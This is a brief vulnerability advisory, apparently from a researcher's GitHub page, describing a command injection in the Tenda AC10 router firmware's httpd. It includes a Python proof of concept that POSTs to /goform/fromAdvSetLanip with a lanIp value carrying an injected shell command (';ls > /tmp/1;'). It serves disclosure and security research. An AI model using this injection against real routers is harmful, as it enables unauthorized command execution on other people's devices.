


# command injection

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a command injection in httpd/TendaTelnet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:




call doSystemCmd, split lan.ip



lan.ip get value from lanIp, and we can execute arbitrary command

## POC
```
url = "http://192.168.1.13/goform/fromAdvSetLanip"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={'lanIp': payload})
``` 
